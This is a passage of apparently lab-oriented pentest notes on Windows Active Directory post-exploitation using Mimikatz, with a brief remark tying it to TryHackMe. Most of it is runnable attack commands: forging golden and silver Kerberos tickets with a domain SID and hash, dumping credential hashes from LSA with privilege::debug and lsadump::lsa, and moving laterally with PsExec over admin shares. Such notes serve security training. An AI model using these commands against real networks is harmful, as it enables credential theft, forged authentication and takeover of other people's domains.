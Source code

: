 ```
misc::cmd
```

This doesn't actually work. Because of how tryhackme is setup but you would then be able to access other machines. In the example below you'd need to find out what other machines exists to pull this off.

**Victim**

```
dir \\Desktop-1\c$
PsExec.exe \\Desktop-1 cmd.exe
```

#### **Silver Ticket**

This is the command for creating a golden ticket as well but to create a silver ticket simply put a service NTLM hash into the krbtgt slot, the sid of the service account into **sid**, and change the id to 1103. &#x20;

**Victim - Mimikatz**

```
Kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860  /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:1103
```

### Use the Golden/Silver Ticket to access other machines

```
misc::cmd
```

NTLM hash of Administrator

```
lsadump::lsa /inject /name:Administrator 
```



## Dumping hashes w/ mimikatz

**Example**

[#dumping-hashes-w-mimikatz](../../walkthroughs/tryhackme/post-exploitation-basics.md#dumping-hashes-w-mimikatz "mention")

**Victim**

```
mimikatz.exe
```

**Victim(Mimikatz)**

```
privilege::debug
lsadump::lsa /patch
```
